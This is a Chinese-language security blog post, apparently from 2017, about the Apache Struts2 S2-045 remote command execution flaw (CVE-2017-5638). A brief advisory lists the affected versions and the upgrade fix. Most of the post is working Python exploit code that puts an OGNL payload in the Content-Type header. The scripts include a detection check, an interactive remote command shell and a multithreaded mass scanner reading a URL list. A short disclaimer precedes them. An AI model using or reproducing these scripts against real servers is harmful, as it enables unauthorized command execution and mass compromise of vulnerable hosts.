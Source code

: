 ```yaml
---
title: Struts2_045漏洞
date: 2017-03-07 13:57:32
comments: true
tags: struts2
categories: web安全
---
```

<blockquote class="blockquote-center">Struts2是个好东西</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*


　　Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，漏洞评级为：高危。
<!--more -->
漏洞详情：恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞进而执行系统命令。
风险等级：高风险。
漏洞风险：黑客通过利用漏洞可以实现远程命令执行。
影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10。
安全版本：Struts 2.3.32或2.5.10.1。
修复建议：如您正在使用Jakarta文件上传插件，请升级Struts至安全版本。

更多参考：[https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)

### POC
```bash
#! -*- encoding:utf-8 -*-
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

```

### Poc_Cmd
```bash
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url,content="echo nMask"):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+content+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

	while 1:
		con=raw_input("[cmd]>>")
		print poc(url,content=con)
```
运行结果：
```bash
>python s2_045_cmd.py http://xxx.com/?a.action

[Loopholes exist] http://xxx.com/?a.action

[cmd]>>ls
example1
example2
```

### 多线程批量检测

```bash
import urllib2
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
import threading

def poc(url):
	register_openers()
	datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
	header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
	header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
	try:
	    request = urllib2.Request(url,datagen,headers=header)
	    response = urllib2.urlopen(request,timeout=5)
	    body=response.read()
	except:
		body=""

	if "nMask" in body:
		print "[Loopholes exist]",url
		f.write(url+"\n")
	else:
		print "Loopholes not exist",url

if __name__=="__main__":
	'''
	url.txt为待检测url列表
	result.txt为检测完输出结果文件
	'''
	f=open("result.txt","a")
	url_list=[i.replace("\n","") for i in open("url.txt","r").readlines()]
	for url in url_list:
		threading.Thread(target=poc,args=(url,)).start()
		while 1:
			if(len(threading.enumerate())<50):
				break
```
POC下载地址：[https://github.com/tengzhangchao/Struts2_045-Poc](https://github.com/tengzhangchao/Struts2_045-Poc)

更多检测脚本，敬请期待......

转载请说明出处:[Struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
本文地址：http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/